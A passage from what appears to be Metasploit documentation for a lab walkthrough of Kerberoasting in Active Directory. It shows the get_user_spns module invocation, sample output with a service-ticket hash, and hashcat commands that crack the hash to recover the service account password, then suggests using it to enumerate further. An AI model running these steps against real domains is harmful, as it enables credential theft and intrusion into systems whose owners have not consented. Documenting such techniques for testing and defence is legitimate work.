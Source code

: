 The easiest way to enumerate Kerberoastable accounts is with the `auxiliary/gather/get_user_spns` module which internally leverages Impacket.
This module will automatically query LDAP for Kerberoastable SPNs and request a Kerberos service ticket that may be encrypted using the weak password
which can be bruteforced:

```
use auxiliary/gather/get_user_spns
run rhost=192.168.123.13 user=<username> pass=<password> domain=<domain>
```

If you followed the lab setup setup above, this should output the following result:

```msf
msf6 auxiliary(gather/get_user_spns) > run rhost=192.168.123.13 user=Administrator pass=p4$$w0rd domain=adf3.local

[*] Running for 192.168.123.13...
[+] ServicePrincipalName                    Name                MemberOf  PasswordLastSet             LastLogon  Delegation
[+] --------------------------------------  ------------------  --------  --------------------------  ---------  ----------
[+] DC3/svc_kerberoastable.ADF3.LOCAL:1337  svc_kerberoastable            2023-01-23 23:52:19.445592  <never>
[+] $krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1dcdcef4c926cb263abedf75ed$263fea3ad446bd6b4b8... etc etc ...
```

The final line contains the service ticket hash in a crackable format. Next paste this hash `$krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1..etc etc...` into a new file called `hash.txt`
You can run Hashcat to crack the hash with a wordlist of choice, and see if the status of the hash has been marked as cracked:

```
$ hashcat -m 13100 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt
... etc ...
Session..........: hashcat
Status...........: Cracked
... etc ...
```

If the password has been cracked you can view the result at a later date with the above command and `--show` appended:

```
$ hashcat -m 13100 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
$krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1dcdcef4c926cb...etc etc...:password123
                                                                                                         ^ cracked password
```

Now that you have access to the password of the service account, you can use this to enumerate further in the AD environment.

### Manual workflow
